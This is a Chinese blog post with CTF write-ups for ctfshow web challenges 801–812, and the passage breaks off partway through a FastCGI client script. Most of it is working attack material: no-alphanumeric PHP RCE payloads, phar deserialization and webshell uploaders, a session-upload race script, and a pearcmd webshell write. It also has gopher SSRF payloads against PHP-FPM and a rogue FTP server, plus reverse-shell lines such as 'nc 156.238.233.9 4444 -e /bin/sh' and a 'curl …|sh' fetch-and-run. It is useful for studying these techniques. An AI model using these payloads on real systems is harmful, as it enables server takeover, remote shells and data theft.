






+++
title = "ctfshow常用姿势"
slug = "ctfshow-common-techniques"
description = "刷"
date = "2025-02-26T18:40:41"
lastmod = "2025-02-26T18:40:41"
image = ""
license = ""
categories = ["ctfshow"]
tags = []
+++

## web801

flask计算pin值，但是版本要低，高版本的时候加一个cookie值也能打开`console`，这里不写了[flask计算pin值之前写的分析](https://baozongwi.xyz/2024/08/19/flask%E8%AE%A1%E7%AE%97pin%E5%80%BC/)

## web802

**无字母数字命令执行**RCE，直接打就好

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
$cmd = $_POST['cmd'];

if(!preg_match('/[a-z]|[0-9]/i',$cmd)){
    eval($cmd);
}
```

只是ban了数字，取反比较好用

```php
<?php
 
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');
 
    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    fwrite(STDOUT,'[+]your command: ');
 
    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}
 
negateRce();
```

```http
POST / HTTP/1.1
Host: a1c52444-84fc-436c-bf61-e3db1fb7c6c9.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
sec-fetch-user: ?1
referer: https://ctf.show/
Content-Type: application/x-www-form-urlencoded

cmd=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%D5);
```

## web803

phar文件包含，很久没做了，用这道题复现一下

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

两边都能够触发，所以走else里面的来写webshell，写了之后再文件包含就可以了

```php
<?php
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$phar->addFromString("m.txt","<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
```

然后把phar打入，用python来上传

```python
import requests

url = "http://b332487e-affe-40c2-995d-0f14de6794a9.challenge.ctf.show/"
file = {'file': '/tmp/phar.phar', 'content': open('phar.phar', 'rb').read()}
data = {'file': 'phar:///tmp/phar.phar/m', 'content': 'test', '1': 'system("ls");'}
r1 = requests.post(url, data=file)
print(r1.text)
r2 = requests.post(url, data=data)
print(r2.text)

```

## web804

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

真是简单完了，直接打

```php
<?php
class hacker{
    public $code;
}
@unlink("phar.phar");
$phar=new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER();?>");
$o=new hacker();
$o->code='system("ls;ls /");';
$phar->setMetadata($o);
$phar->addFromString('test.txt','test');
$phar->stopBuffering();
?>
```

```python
import requests
import time

url = "http://eecf4f33-5779-4e35-b612-6eee07af2fe4.challenge.ctf.show/"
file = {'file': '/tmp/d.phar', 'content': open('phar.phar', 'rb').read()}
data = {'file': 'phar:///tmp/d.phar', 'content': 'test'}
r1 = requests.post(url, data=file)
time.sleep(1)
# print(r1.text)
r2 = requests.post(url, data=data)
time.sleep(1)
print(r2.text)

```

但是我还是用了很多时间，因为我在命令执行的时候少加了一个`;`

## web805

虽然之前在原生类那一篇文章里面我简短的写了写，但是也只能算作是一个了解，而且这里根本用不上，所以在网上搜索一下资料[参考文章](https://xz.aliyun.com/news/9520#toc-12)，知道一个姿势

`chdir`将工作目录切换到指定的目录，`ini_set`用来设置php.ini的值，无需打开php.ini文件，就能修改配置。

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

eval($_POST[1]);
```

```
1=mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));

1=mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(readfile('/ctfshowflag'));
```

## web806

```php
<?php

highlight_file(__FILE__);

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
?>
```

`get_defined_vars()` 返回的是一个包含所有已定义变量的数组，而 `eval()` 只能接受字符串类型的参数，导致 PHP 隐式将数组转换为字符串，`next()` 函数需要接收一个引用变量（即实际存在的数组变量），PHP 中的 `array_pop()` 是用于操作数组的实用函数，主要用于移除数组的最后一个元素并返回该元素的值，而这个元素就是我们可控的，直接用ctfshow之前用过的poc

```http
POST /?code=eval(array_pop(next(get_defined_vars()))); HTTP/1.1
Host: 2711af88-9898-4e39-9398-0305969c60fe.challenge.ctf.show
Connection: keep-alive
Content-Length: 18
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://2711af88-9898-4e39-9398-0305969c60fe.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://2711af88-9898-4e39-9398-0305969c60fe.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

1=phpinfo();
```

## web807

```php
<?php


error_reporting(0);
highlight_file(__FILE__);
$url = $_GET['url'];

$schema = substr($url,0,8);

if($schema==="https://"){
    shell_exec("curl $url");
}
```

限制了https，但是刚好我有，嗯，给我弹的个啥玩意

```
?url=https://ctf.baozongwi.xyz:4444|sh
```



不过他是直接放命令进去的，可以直接截断

```
?url=https://;nc 156.238.233.9 4444 -e /bin/sh;
```

试了好多个命令发现这个可以

## web808

打session文件包含，掏出我的ctfshow通杀脚本

```php
<?php

error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    print_r(scandir("/tmp"));
}
```

一看包含，并且打印`/tmp`那肯定是开了session的

```python
import io
import requests
import threading

sessid="wi"
url="http://d0fddae2-71ca-4cb8-95cb-4562d5337b1d.challenge.ctf.show/"

def write(session):
    while event.is_set():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat /flagfile');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.is_set():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if 'wi.txt' in r.text:
            print(r.text)
            event.clear()
        else :
            print("nonono")


if __name__=='__main__':
    event=threading.Event()
    event.set()
    with requests.session() as sess:
        for i in range(1,30):
            threading.Thread(target=write,args=(sess,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(sess,)).start()


```

## web809

**pear文件包含/RCE**

```php
<?php
error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log|filter/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    if(isset($_GET['info'])){
        phpinfo();
    }
}
```

`register_argc_argv`为`on`直接用极客大挑战使用的姿势，写shell的时候要在yakit里面才行，因为有特殊字符

```
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=@eval($_POST[1]);?>+/var/www/html/shell.php
```

```http
POST /?file=shell.php HTTP/1.1
Host: 55f9b443-4f96-47d1-9242-4842fcce2da7.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

1=phpinfo();
```

但是貌似仍然可以打session文件包含

## web810

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$url=$_GET['url'];
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
curl_setopt($ch,CURLOPT_HEADER,1);
curl_setopt($ch,CURLOPT_RETURNTRANSFER,0);
curl_setopt($ch,CURLOPT_FOLLOWLOCATION,0);
$res=curl_exec($ch);
curl_close($ch);
```

可以**SSRF打PHP-FPM**这不是老熟人了吗

```
baozongwi@ubuntu:~/Desktop/CTFtools/Gopherus-master$ gopherus --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/index.php
Terminal command to run:  echo PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d > /var/www/html/shell.php

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH129%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%81%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg%3D%3D%7Cbase64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

进行二次编码之后发包，嗯不行，算了打302跳转吧

```php
<?php
header("Location:gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH129%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%81%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg%3D%3D%7Cbase64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00");
```

```
?url=https://a.baozongwi.xyz/shell.php
```

我这个方法肯定是没错的，因为上次国城杯我实践了好几次，但是这里不知道为啥不行，还是直接拿flag吧

```
baozongwi@ubuntu:~/Desktop/CTFtools/Gopherus-master$ gopherus --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  index.php
Terminal command to run:  cat /f*

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH59%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3B%04%00%3C%3Fphp%20system%28%27cat%20/f%2A%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

## web811

**file_put_contents打PHP-FPM**，**利用 FTP 被动模式**：当 `file_put_contents` 支持 `ftp://` 协议时，可通过 FTP 的被动模式（PASV）将数据发送到目标服务器的 PHP-FPM 端口

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$file = $_GET['file'];
$content = $_GET['content'];

file_put_contents($file, $content);
```

所以我们就可以打了，这次直接反弹shell

```
baozongwi@ubuntu:~/Desktop/CTFtools/Gopherus-master$ gopherus --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  index.php
Terminal command to run:  nc 156.238.233.9 4444 -e /bin/sh

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH84%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00T%04%00%3C%3Fphp%20system%28%27nc%20156.238.233.9%204444%20-e%20/bin/sh%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

然后本地起一个ftp服务利用被动模式

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2) 
# "127,0,0,1"PHP-FPM服务为受害者本地，"9000"为为PHP-FPM服务的端口号
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

```
?file=ftp://156.238.233.9:9999/&content=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH84%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00T%04%00%3C%3Fphp%20system%28%27nc%20156.238.233.9%204444%20-e%20/bin/sh%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

这次只用payload部分就可以了，并且ftp服务和反弹shell要在同一台机器上面

## web812

**PHP-FPM未授权** [P牛的文章](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html) 我是脚本小子，我要一把梭哈🙃

```python
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

